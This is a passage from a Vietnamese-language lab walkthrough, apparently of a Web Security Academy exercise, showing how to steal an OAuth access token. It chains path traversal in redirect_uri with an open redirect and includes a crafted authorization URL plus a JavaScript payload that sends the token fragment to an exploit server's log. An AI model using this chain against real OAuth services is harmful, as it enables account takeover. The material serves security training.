   <img width="1564" height="894" alt="image" src="https://github.com/user-attachments/assets/76de66fc-4fd4-4fd7-85d0-af9e1aa1bc69" />

  Tuy nhiên nếu ta sử dụng path traversall /../ như đã đề cập thì lại không gặp lỗi đó:

  <img width="1882" height="895" alt="image" src="https://github.com/user-attachments/assets/4b0d1798-bd04-4db4-bc5e-29d598f544c9" />

  Thực hiện tạo directory traversal là: */oauth-callback/../post?postId=1* (vì khi để post không và thực hiện gửi request sau đó redirect sẽ bị báo lỗi missing param       postId):

  <img width="1882" height="885" alt="image" src="https://github.com/user-attachments/assets/def3aa67-3c07-492d-8e14-314679b33359" />

  Khi thực hiện follow redirection, sẽ được chuyến hướng tới trang bài báo id = 1:

  <img width="1878" height="920" alt="image" src="https://github.com/user-attachments/assets/f2c47eaa-483a-424a-a276-41fc88ee60ff" />

  &rarr; Ta cũng để ý nhận thấy được rằng *access token* được bao gồm trong phần #fragment của URL.

  <img width="1880" height="511" alt="image" src="https://github.com/user-attachments/assets/73ed71d1-9ea3-4798-bbe7-7381d0281274" />

  Tiếp tục để ý thấy rằng trong mỗi bài post trong blog, có một tùy chọn là "Next post" để chuyển hướng sang bài viết tiếp theo, hoạt động bằng cách chuyển hướng người     dùng đến đường dẫn được chỉ định trong tham số truy vấn với GET request /post/next?path=[...]:

  <img width="1864" height="551" alt="image" src="https://github.com/user-attachments/assets/473e5c44-6c05-4ae4-a3b0-badebfd2ed46" />

  &rarr; lỗ hổng open redirect.

  Tận dụng open redirect như đã đề cập ở trên, ta tạo một URL sẽ khởi động một quy trình OAuth với redirect_uri trỏ đến chỗ open redirect như trên, sau đó thực hiện        chuyển tiếp đến exploit server của ta:

  ```
  https://oauth-0a6a004e041e9f2180fef1df026f00a9.oauth-server.net/auth?client_id=pzaphg5dxngdwfczpt306&redirect_uri=https://0a2500c104f59f5d8049f35700f6007c.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a5c00c204979f178005f262010c0058.exploit-server.net/exploit&response_type=token&nonce=-1090283847&scope=openid%20profile%20email
  ```

  Kết quả khi thực hiện truy cập đường dẫn URl, ta sẽ thấy nó chuyển hướng về trang exploit server "Hello World!"

  <img width="1919" height="1005" alt="Screenshot 2025-08-28 013504" src="https://github.com/user-attachments/assets/b5ed51a7-8822-4ef0-95cd-d9bc38c5ce3e" />

  Cùng với đó ta để ý thấy rằng access token được trả về trong URL fragment.

  Trên exploit server, tại file /exploit ta tạo script:

  ```
  <script>
    window.location = '/?'+document.location.hash.substr(1)
  </script>
  ```

  Đoạn script trên thực hiện cắt bỏ ký tự #, ép browser redirect lại đến chính exploit server, nhưng lần này đưa fragment vào query string.

  Sau khi thực hiện truy cập lại đường dẫn URL như trên, ta sẽ thấy access token của mình trả về dưới dạng query string, không phải #fragment nữa, check trong access log   exploit server:
